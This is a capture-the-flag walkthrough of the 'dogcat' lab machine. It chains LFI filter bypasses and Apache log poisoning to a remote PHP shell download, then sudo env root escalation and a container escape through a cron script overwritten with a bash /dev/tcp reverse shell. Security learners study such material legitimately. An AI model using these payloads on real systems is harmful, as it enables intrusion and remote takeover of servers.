# dogcat

##### Difficulty: [ Medium ]

**Tags:** `Linux`,  `nmap`,  `Gobuster`,  `LFI`,  `log poisoning`,  `reverse shell`,  `env`

---

##### Written: 01/11/2021

##### IP address: 10.10.65.102

---

### [ What is flag 1? ]

Let's first start off with an **Nmap** scan on the target machine. We shall just scan the top 1000 ports for now. 

```
sudo nmap -sC -sV -vv -T4 10.10.65.102
```

**Results:**



As we can see from the results, there are two open ports on the machine:

* **Port 22** - SSH Server
* **Port 80** - HTTP Web Server

*Note: I later did a full nmap scan and the results were the same.*

<br>

Let's take a look at that HTTP web server!



Looks like we have a simple web page with two clickable buttons: 'A dog' and 'A cat'. Before we begin with our happy-path enumeration, let's run a **Gobuster** scan on the web server to enumerate any hidden directories.

```
gobuster dir -u http://10.10.65.102/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 100
```

**Results:**



We have a couple of directories, but the most notable one is **/flag.php**. Unfortunately, that directory does not contain any content or any flags.

There are also **dog.php** and **cat.php** files, which are probably used to serve content on the main page. However, we are not able to view the source code for those files. 

After poking around for a bit, I decided to move on as there was nothing of use to us at the moment. 

<br>

Let's now do some manual enumeration of the web page. When we click on either of the buttons on the main page, a random image of the corresponding animal pops up. 

**Clicking on 'A dog':**



Now what's really interesting is the **view** parameter in the request that is made when we click on either of these buttons. This can be seen in the URL bar:



This parameter could potentially be susceptible to a **Local File Inclusion (LFI)** attack, which occurs when the web page takes in a file path in order to access a file that exists on its local file system, but does not conduct the appropriate input sanitization. Hence, attackers can exploit this by passing in a path that leads to another file, such as the /etc/passwd file. In fact, let's try doing that now! 

The payload we'll use is: `http://10.10.65.102/?view=../../../../../../../etc/passwd`




Unfortunately, that does not work and it seems as if there is indeed some input sanitization occurring on the server side.

Perhaps the server is checking for either the word 'dog' or 'cat' to be present within the input. If that is the case, we can use a **null byte injection** to bypass this check. With the null byte, we are able to include the key words 'dog' or 'cat' in the input, yet not have those words included in the actual file path that the server will use. 

Our payload is: `http://10.10.65.102/?view=../../../../../../../etc/passwd%00dog`

In this case, the null byte (%00) will terminate the string at `/etc/passwd`, which means that `dog` will not actually be included in the file path used by the server. Let's see if this works:



Great! we managed to bypass that specific sanitization check as we have gotten a different error message from before. However, it seems that there are still additional checks being conducted as we cannot access the **/etc/passwd** file.

<br>

Doing some research online, I soon came upon the following LFI payloads from https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion:



We can try using the payload: 

`http://10.10.65.102/?view=php://filter/convert.base64-encode/resource=dog.php`

This uses a PHP wrapper and should give us the base64-encoded source code for **dog.php**:



Hmmm, it still does not work. However, something interesting that I noticed from the error message is that the **.php** extension has been automatically appended to my input by the web server, even though I had already included the extension:



In that case, let's try modifying the payload to:

`http://10.10.65.102/?view=php://filter/convert.base64-encode/resource=dog`



Nice! We got a base64-encoded output :smile:

​	


Decoding the output gives us the source code for dog.php. This proves that our LFI payload works. 

<br>

Now let's try to get the source code for the main page: **index.php**. We can use the following payload to do so:

`http://10.10.65.102/?view=php://filter/convert.base64-encode/resource=dog/../index`

*Note that the word 'dog' or 'cat' still has to be within the input so that we can pass the first sanitization check.*



We're successful in doing so. Decoding the output gives us index.php in its entirety:



After analyzing the code, I can see that apart from checking whether the input contains the string 'dog' or 'cat' (which we have already deduced), the web server also checks for a parameter called '**ext**'. 

From the line `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';`, we know that if the **ext** parameter is not provided by the user in their request, a default value of '.php' will be set to that variable. The value of the 'ext' variable will then be appended to the user input. This explains why the web server was appending the .php extension to my inputs from earlier, as I was not providing the 'ext' parameter.

Thus, to bypass this, all we have to do is to include the '**ext**' parameter in our requests. Let's try this updated payload:

`http://10.10.65.102/?view=dog/../../../../../../../etc/passwd&ext=`  

We set the value of 'ext' to be empty so that our input will be left untouched and will not have anything appended to them. 



With that, we've managed to bypass the second check and obtained the /etc/passwd file! 

<br>

From here, I tried to open the **/etc/shadow** file so that we can possibly enumerate some user credentials.




Unfortunately, we do not have the necessary permissions to do so.

Next, I did some research and learned about **Log Poisoning**, which is a way to exploit LFI vulnerabilities to gain RCE on the target machine *(more info can be found here: https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d)*. 

---

**The attack generally works like this:** since the web server logs all requests made to it, we can inject PHP code into our requests so that it will be logged into the log file. If we then directly access the log file, the web server will execute the code as it parses through the log file. Examples of Log File Poisoning payloads can be found here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi-to-rce-via-controlled-log-file

---

Firstly, let's try opening the **access log file** on the web server. Using Wappalyzer, I found out that the server is running on **Apache**.



After trying some variations, I discovered that we can access the log file using:

 `http://10.10.65.102/?view=dog/../../../../../../var/log/apache2/access.log&ext=`



<br>

Next, we'll inject our PHP code into the **user-agent** header of our request. This is a more reliable method as compared to injecting it directly as a parameter input. If we inject directly as a parameter input, our code could end up being encoded by the server before being saved to the log file. This will cause it to not be treated as code later on by the server.

We will be uploading a PHP reverse shell to the server (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). 

We will also use **curl** to make the request:

```
curl -A “<?php file_put_contents(‘shell.php’,file_get_contents(‘http://YOUR_IP_HERE/shell.php'))?>" http://10.10.65.102
```

The command above will cause the server to download the reverse shell script from our local machine *(we should have a http server up and running on our side)*. The `-A` option is used to set the user-agent header.

<br>

Next, we access the log file again to trigger the PHP code to be executed. We can see that the download is successful as there is a GET request made to my http server.



With a netcat listener up and running, we can then open the reverse shell by navigating to http://10.10.65.102/shell.php



We're in! :smile:

<br>

Now let's start hunting for some flags. I first checked the sudo privileges that the current user had:



Looks like we can run **env** with sudo! The **'NOPASSWD'** also indicates that we do not need to input the root password in order to run the program as root.

Looking at GTFOBins, we can find the following method to exploit env:



By just running that command, we can open a shell with root privileges:



<br>

To save time in manually finding the flags, let's use the `find` program instead.

```
find / -iname "*flag*" -type f 2>/dev/null
```

**Results:**



And with that, we can find 3/4 flags!

**Flag 1** can found in **/var/www/html/flag.php**:



---

### [ What is flag 2? ]

**Flag 2** can be found in **/var/www/flag2_QMW7JvaY2LvK.txt**



---

### [ What is flag 3? ]

**Flag 3** can be found in **/root/flag3.txt**



---

### [ What is flag 4? ]

If we do a `ls -al` on the root directory, we can actually see a hidden **.dockerenv** file.



This indicates that we are currently in a Docker container. Since I was not able to find Flag 4 anywhere in the current environment, I guess that means we have to find a way to break out of the container.

After searching through some of the directories, I eventually came across an interesting directory called **/backups** in the **/opt** directory. 

**Contents of /backups:**



We have an interesting shell script called **backup.sh** that is owned by **root**. 

**backup.sh:**



Looks like the shell script uses `tar` to archive the contents of /root/container into a backup file called backup.tar. Since this is a backup file, we can assume that this runs periodically as a cronjob. Furthermore, we can actually write over this file as we have root privileges! This is great as this means that we can overwrite the contents and write in a command to open up a reverse shell. The file will then be executed by root after some time has passed.

<br>

We'll use the bash tcp reverse shell payload from:

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

To overwrite the backup.sh file, we use:

```
echo '#!/bin/bash\nbash -i >& /dev/tcp/YOUR_IP_HERE/4242 0>&1' > backup.sh
```

We then set up a netcat listener on our local machine.

<br>

After some time, a reverse shell is opened and we get access into our target machine as the root user!



With that, we can obtain Flag 4 from the home directory of root.


